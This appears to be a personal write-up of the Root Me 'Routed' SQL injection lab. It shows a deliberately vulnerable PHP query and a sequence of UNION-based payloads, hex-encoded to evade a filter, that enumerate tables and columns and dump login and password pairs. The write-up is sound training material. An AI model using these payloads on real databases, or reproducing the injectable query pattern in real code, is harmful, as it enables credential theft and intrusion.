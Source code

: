 ```yaml
---
title: "SQL injection - Routed"
tags:
    - Lab
    - Root Me
date: "2024-06-22"
thumbnail: "/assets/img/thumbnail/sqli.jpg"
bookmark: true
---
```

## Description

Retrieve the administrator password.

Routed SQL Injection!!!

First time hearing about it, so I searched to see what it is, and I found that this is a situation where the injectable query is not the one which gives output, but the output of the injectable query goes to the query which gives the output.

Let's look at this snippet of code to understand more.

 ```php
 <?
 $id=$_GET['id'];

 $query="SELECT id,sec_code FROM users WHERE id='$id'";
 
if (!$result=mysql_query($query,$conn))
   die("Error While Selection process : " . mysql_error());
if(mysql_num_rows($result) == 0)
	die();

$row = mysql_fetch_array($result, MYSQL_ASSOC);

$query="SELECT username FROM users WHERE sec_code='".$row['sec_code']."'";

echo "<br><font color=red>This is the query which gives you Output : </font>$query<br><br>";

if (!$result=mysql_query($query,$conn)) 
 die("Error While Selection process : " . mysql_error());

if(mysql_num_rows($result) == 0)
	die("Invalid Input parameter");
   
   $row = mysql_fetch_array($result, MYSQL_ASSOC);
    	echo 'Username is : ' . $row['username'] . "<br>";?>
 ```

The magic here is that - the output of the first query is used as the input of the second query and it is the second query which displays output back to us. Or in other words, in order to exploit the SQL Injection vulnerability, we need to control the input for the second query - the variable sec_code (which happens to be the output of the first query). You may have already noticed that, due to the fact that the first query is vulnerable to SQL Injection, we can control and set sec_code to an arbitrary value

## Routed Challange

<a href="http://challenge01.root-me.org/web-serveur/ch49/">Challange Link</a>
<a href="https://cryptii.com/pipes/hex-decoder/">Hex decoder</a>

Let's exploit our challange:
 starting by confirming that it is vulnerable to SQL Injection by sending a single quote ' as payload:

<img src="/assets/img/rootme/routed/1.png" alt="quote">

 ok, now i ll inject simple payload `' union select 1 -- -` what this  will do??
this will escape the first SQL query and set both values, the second one (representing sec_code in our ecample) to the value 1
 
 as we said that sec_code is the output of first query and it's the input for the second query. now it has a value, the second query will run successfully and return output for the value 1

<img src="/assets/img/rootme/routed/2.png" alt="union1">

also this will happen if we set the value to 2 `' union select 2 -- -`

<img src="/assets/img/rootme/routed/3.png" alt="union2">

what if we set the second one to `True` ?? it will dump all the record in the DB yes!
So, the query would be `' union select ' or true -- - -- -` 

<img src="/assets/img/rootme/routed/4.png" alt="attack detected">

but i get an alert "Attack detected" mmmmmm there are filters !

## Bypass the Filter

the basic bypass to the filter, i will `HEX encode` the term that be blocked `' or true -- -` 

<img src="/assets/img/rootme/routed/5.png" alt="hex1">

<img src="/assets/img/rootme/routed/6.png" alt="hex2">

it appears that there are 3 IDs, now we can bypass the filter easily and can control the second part of the query.
let's determine how many columns by using `Order by` 
the Sql table contains 2 columns cuz when try to order by 3 , i get an error that it's unknown

payload
```sql
 ' union select ' order by 3 -- - -- - 

payload after hexed : ' union select 0x27206f726465722062792033202d2d202d -- -
```
<img src="/assets/img/rootme/routed/7.png" alt="orderby">

now we know that the output is [ID & Email]
if we use union select once again here we can return any output that we want
So,Let's use SQL functions like `current_user()` and `@@version`

Payload
```sql
' union select ' union select current_user(),@@version -- - -- -

after hex encode: ' union select 0x2720756e696f6e2073656c6563742063757272656e745f7573657228292c404076657273696f6e202d2d202d -- -
```

<img src="/assets/img/rootme/routed/8.png" alt="version">

we are now in a situation that resembles a normal SQL Injection.
we want to know the name of the tables that are in the DB 

## Retrieve Table name

payload
```sql
' union select ' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = database() -- -

after hex encode: ' union select 0x2720554e494f4e2053454c454354207461626c655f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e7461626c6573205748455245207461626c655f736368656d61203d2064617461626173652829202d2d202d -- -
```

<img src="/assets/img/rootme/routed/table.png" alt="table">

## Retrieve Columns names

the table called user has two columns, let's get the columns' names 

payloads
```sql
 -
' union select' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = database() LIMIT 1, 1 -- -

after hex : ' union select 0x2720554e494f4e2053454c45435420636f6c756d6e5f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d202775736572732720414e44207461626c655f736368656d61203d2064617461626173652829204c494d495420312c31202d2d202d -- -

' union select' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = database() LIMIT 2, 1 -- -

after hex : ' union select 0x2720554e494f4e2053454c45435420636f6c756d6e5f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d202775736572732720414e44207461626c655f736368656d61203d2064617461626173652829204c494d495420322c31202d2d202d -- -
```
these two payloads return columns' names `Login & Password`

## Retrieve Admin Password

Finallyyyyy, let's retrieve the admin password by using `Gorup_concat`

payload
```sql
' union select ' union  select 1,(select group_concat(login, ':' ,password) from users) -- -

after hex :' union select 2720756e696f6e202073656c65637420312c2873656c6563742067726f75705f636f6e636174286c6f67696e2c20273a27202c70617373776f7264292066726f6d20757365727329202d2d202d -- -
```
<img src="/assets/img/rootme/routed/9.png" alt="admin password">


I know it was a long write-up, but I hope it can be useful.
 See you in another one :)


















